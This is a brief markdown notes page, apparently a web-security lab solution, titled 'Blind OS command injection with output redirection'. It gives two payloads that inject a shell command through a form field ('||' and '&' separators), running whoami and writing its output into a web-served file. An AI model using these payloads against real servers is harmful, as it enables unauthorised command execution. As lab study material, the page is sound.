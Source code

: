 ```yaml
---
layout: default
title: 3 - Blind OS command injection with output redirection
---
```

```bash
email=x||echo+"$(whoami)"+>+/var/www/images/54.jpg||
```

```bash
& whoami > /var/www/static/whoami.txt &
```
